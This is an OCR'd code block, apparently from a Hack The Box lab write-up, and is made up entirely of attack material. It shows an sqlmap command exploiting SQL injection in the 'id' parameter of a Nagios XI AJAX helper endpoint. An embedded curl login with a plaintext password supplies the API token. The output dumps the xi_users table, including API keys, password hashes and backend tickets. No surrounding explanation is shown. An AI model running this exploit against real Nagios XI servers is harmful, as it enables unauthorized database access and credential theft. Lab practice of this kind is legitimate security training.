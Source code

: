 ```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=600' | grep token | awk -F '"' '{print $4}'`" --batch --level 5 --risk 3 -p id -D nagiosxi -T xi_users --dump
Database: nagiosxi
Table: xi_users
[5 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$1c3050a52fe7f09a457e1uxIl3eEKBE87McomD7NxM/6b2bNhJ226 | nagiosadmin | 0          | 1701931372 | 1           | 1705221171  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 8              | 0              | 1705221171           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1705220287   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 11             | 1699697433           |
| 6       | pwned@pwned.com     | pwned                | gurARgnMiFpSgIed7C8bGVNHKZcDMF6d5XU6giBiW5pk7nsq8A6Nqo5gf2pKkqXg | 1       | $2a$10$fe1219651355e97082d53OAxeJyROZajTv9RG7fHVoGGgKVBS0Lhe | pwned       | 0          | 1705220069 | 0           | 0           | 0            | 0            | b83Dmgna0VE4VlDANl6INoX08kDblEiAY3VYBEnclEaVZPVaFHkCA3s2rfEP7vFB | 0              | 0              | 1705217678           |
| 7       | pwned@pwned.com     | test                 | 8Mt9kfPJZjSj2blWsioYW20c3N57YnrqThZXgelTHbOr7IgpJ3VCnWoaPLJQ486l | 1       | $2a$10$1abfec87a3f3ff89fa7b6OQbyyDM0YEb7lv9fhm5PnUnRVbHN1aQG | test        | 0          | 1705218584 | 0           | 0           | 0            | 0            | LDOiDR39gSW9WdgsQJT6YLDYYv5mZTnATifU04lgnnpLH4TrInoqAKCGf7idpeng | 0              | 0              | 1705218592           |
| 8       | pwned@pwned.com     | uwu                  | HTHHVnaiPv290lXjPbC8NthsK7oTjjUWjRZZIUmjTrS2mdvZQdHaiOqKWfZMVYPd | 1       | $2a$10$c576236aaa35d133eb187OH0iiONbDKkxevbOCU7LKs368rpY5.Jq | uwu         | 0          | 1705220963 | 0           | 0           | 0            | 0            | QIEXZHRtvr3ps8kjNDFKCYL6Al2VERICejUrhbDSGbG5IbW4KvFabBmDdq2SlDs8 | 0              | 0              | 1705220973           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```

